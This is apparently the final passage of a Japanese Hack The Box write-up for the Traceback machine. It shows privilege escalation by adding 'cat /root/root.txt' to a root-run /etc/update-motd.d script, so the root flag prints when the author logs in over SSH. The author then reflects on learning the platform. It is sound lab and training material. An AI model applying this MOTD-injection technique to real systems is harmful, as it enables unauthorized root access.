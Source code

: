 `/etc/upated-motd.d` 以下はログイン時に出るバナーなどを実装しているシェルスクリプトのようです。
root 権限で動作するらしいので、ここで `/root/root.xt` の表示を試みます。

```txt
$ nano /etc/update-motd.d/00-header

# cat /root/root.txt を追加
```

これで SSH し直すとバナーと一緒に `root.txt` も出力されます！

```txt
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:56:10 2020 from 10.10.14.11
$
```

## 感想

最初から Web Shell がしかけられてるシチュエーションなんてあるかよ、という気持ちもあったのですがイタズラ的にマシンを乗っ取られてそれを取り返すというシチュエーションだと思うと、ある程度は納得出来る問題でした。

初めての問題で何も分からない状態からのスタートでしたが、リタイアした別マシンの write up を読んで使うべきツールなり定石なりを把握すると割とすんなり解けました。
実際仕事終わりに問題に取り組んで 2 日間くらいかかってしまったのですが、終わってみると「やるだけ」だったなという感想です。

そもそも始めたきっかけは [ハッキングという言葉に憧れるエンジニア達に贈る Hack the Box 入門](https://speakerdeck.com/sanposhiho/hatukingutoiuyan-xie-nichong-reruenziniada-nizeng-ru-hack-the-box-ru-men) を見たことなのですが、
これを最初に見たとき「これが Easy なら自分には厳しいな」という印象を持ったのですが、やってみれば割とこなせたので少し自分に自信がつきました。
良い経験だったと思います。

今の自分は Script Kiddie という大変不名誉なランクなので Hacker になるまでは続けようと思います。

<https://app.hackthebox.eu/profile/367637>
